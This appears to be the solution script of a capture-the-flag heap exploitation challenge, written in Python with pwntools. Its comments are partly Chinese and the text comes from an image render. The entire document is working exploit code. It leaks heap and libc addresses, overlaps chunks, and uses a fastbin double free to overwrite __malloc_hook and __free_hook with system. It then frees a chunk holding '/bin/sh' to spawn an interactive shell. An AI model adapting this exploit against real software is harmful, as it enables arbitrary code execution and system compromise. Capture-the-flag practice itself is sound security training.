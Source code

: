 ```python
	io.recvuntil('Index :')
	io.sendline(str(index))
def secret():
	io.recvuntil('choice :')
	io.sendline('4869')
	io.recvuntil('0x')
	ptr_mmap = io.recvuntil('Good')[:-4]
	ptr_mmap = int(ptr_mmap,16)
	print 'ptr_mmap:' + hex(ptr_mmap)
	return ptr_mmap

'''
leak heap
解题时没有用
'''
add(10,'a'*32,'b'*10) # 0
show(0)
io.recvuntil('a'*32)
ptr_chunk = u64(io.recvuntil('\x0aSecret')[:-7].ljust(8,'\x00'))
print 'ptr_chunk:' + hex(ptr_chunk)

'''
overlap chunk
'''

add(0x80,'name1','content') # 1
add(0x68,'name2','content') # 2
add(0xf8,'name3','content') # 3
add(0x68,'name4','content') # 4
add(0x80,'name5','/bin/sh\x00') # 5
delete(1)
delete(2)
add(0x68,'name1','a'*0x60+p64(0x60+0x10+0x80+0x10)) # 1
delete(3) # free chunk size = chunk 1 + chunk 2 + chunk 3
add(0x80,'name2','a'*0x80) # 2
show(1)
io.recvuntil('Secret : ')
libc_base = u64(io.recvuntil('\x0a')[:-1].ljust(8,'\x00'))
libc.address = libc_base-88-0x3c3b20
print 'libc_base:' + hex(libc_base)
add(0x68,'name3','content') # 3

'''
double free
'''

delete(1)
delete(4)
delete(3)
add(0x68,'name1',p64(libc.sym['__malloc_hook']-0x23+0x18)) # 1
add(0x68,'name3','content') # 3
add(0x68,'name4','content') # 4
add(0x68,'name6','\x00'*0x3+p64(0x70)+'\x00'*0x30+p64(libc.sym['__malloc_hook'])) # 6
add(0x68,'name7','\x00'*0x58+p64(libc.sym['__free_hook']-0xb58))# 7
add(0x90,'name','content') # 8
for i in range(18):
    add(0x90,'name','content')
add(0x90,'name','a'*0x8+p64(libc.sym['system']))

delete(5)


io.interactive()
```